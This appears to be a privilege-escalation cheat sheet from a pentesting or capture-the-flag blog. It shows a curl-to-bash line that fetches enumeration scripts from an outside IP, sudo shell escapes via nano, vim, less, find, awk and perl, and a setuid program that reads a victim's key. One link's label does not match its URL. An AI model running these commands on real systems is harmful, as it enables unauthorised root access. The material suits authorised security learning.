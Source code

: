 ```yaml
---
author: Marcos Azevedo
date: '2020-06-16T17:38:15-03:00'
linktitle: 'Cheat Sheet :: Privilege Escalation'
title: 'Cheat Sheet :: Privilege Escalation'
categories:
  - cheatsheet
  - exploitation-techniques
  - priv-escalation
tags:
  - cheatsheet
  - priv-escalation
  - exploitation-techniques
weight: 10
date updated: '2021-03-25T17:36:52-03:00'

---
```



## Using scripts to enum the machine
- [https://github.com/rebootuser/LinEnum](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- On the target's machine we can do:
```bash
$ curl 10.10.14.2/linpeas.sh | bash
$ curl 10.10.14.2/LinEnum.sh | bash
```

-----
## Nano privilege escalation
- This can be used to gain root access on the server.
```bash
sudo -u root /bin/nano /opt/priv
```

- Nano allows inserting external files into the current one using the shortcut.
```bash
Ctrl+R
```

/pics/nano-001.png

- The command reveals that we can execute system commands using **^X (Press Ctrl + X)** and enter the following command to spawn a shell.
```bash
Press Ctrl + X
reset; sh 1>&0 2>&0
```

/pics/nano-002.png

- Now we have a root shell.
/pics/nano-003.png

-----
## Sudo privilege escalation
### Listing allowed ``sudo`` commands
```bash
$ sudo -l
```

### Impersonating with ``sudo``
```bash
$ sudo -u victim command
```

### Escalating privileges with ``find`` command
```bash
$ sudo -u victim /usr/bin/find -exec /bin/bash \;
```

### Escalating privileges with ``vim`` editor
```bash
$ sudo -u victim /usr/bin/vim

# Inside the vim we can call a shell
:!/bin/bash
```

### Escalating privileges with  ``less`` command
- Open a file using less
```
$ sudo -u victim less /home/victim/key.txt
```

- Inside the less we can call a shell
```bash
!/bin/bash
```

### Escalating privileges with ``awk`` command
```bash
# Reading files with awk
$ sudo -u victim /usr/bin/awk '{print $1}' /home/victim/key.txt

# Executing command within awk
$ sudo -u victim /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

### Escalating privileges with ``chmod``

- Create the exploit to call a command
```bash
#include<stdio.h>

int main(void)
{
    system("cat /home/victim/key.txt");
}
```

- Compiling the exploit
```bash
$ cd /tmp
$ gcc exploit.c -o exploit
```

- Setting the __setuid__ and __setgid__ flags
```bash
$ sudo -u victim cp exploit exploit2
$ sudo -u victim chmod +xs exploit2
$ ./exploit2
```

### Escalating privileges with ``perl``
```bash
$ sudo -u victim perl -e 'exec "/bin/bash";'
```

